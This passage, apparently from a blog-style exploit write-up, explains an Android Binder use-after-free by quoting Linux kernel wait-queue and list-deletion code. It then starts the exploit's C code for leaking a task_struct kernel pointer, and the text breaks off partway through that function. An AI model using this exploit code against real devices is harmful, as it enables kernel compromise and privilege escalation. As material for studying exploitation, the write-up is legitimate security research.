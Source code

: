 ```c
void remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	unsigned long flags;

	spin_lock_irqsave(&wq_head->lock, flags);
	__remove_wait_queue(wq_head, wq_entry);
	spin_unlock_irqrestore(&wq_head->lock, flags);
}
```

```c
static inline void
__remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	list_del(&wq_entry->entry);
}
```

```c
static inline void list_del(struct list_head *entry)
{
	__list_del(entry->prev, entry->next);
	entry->next = LIST_POISON1;
	entry->prev = LIST_POISON2;
}
```

```c
static inline void __list_del(struct list_head *prev, struct list_head *next)
{
	next->prev = prev;
	prev->next = next;
}
```

As we can see `__list_del()` is called and writes the address of `binder_thread->wait.head` to `binder_thread->wait.task_list.next` and `binder_thread->wait.task_list.prev`.

**Leaking task_struct kernel pointer**

`task_struct_leak()` is responsable for leaking the `task_struct` pointer. At first does preliminary jobs like opening `/dev/binder`, allocating an epoll and linking it, creating a pipe (which will be used later for reading the leaked address), changing the pipe size to a smaller value since we’ll need to fill it up completely later, a smaller pipe is better, we also `mmap()` a 0x1000 buffer, and setup the iovecs.

```c
void task_struct_leak() {
    printf("\t[+] opening /dev/binder\n");
    open_binder();

    printf("\t[+] allocating epoll\n");
    epoll_alloc();

    printf("\t[+] linking epoll\n");
    epoll_link();

    printf("\t[+] setting up a pipe\n");
    if( pipe(pipe_fd) ) {
        printf("\t[-] failed to allocate a pipe\n");
        return -1;
    }

    printf("\t[+] changing pipe size to 0x1000\n");
    if (fcntl(READ_PIPE, F_SETPIPE_SZ, PAGE_SIZE) == -1) {
        printf("\t[-] unable to change the pipe capacity\n");
        exit(-1);
```
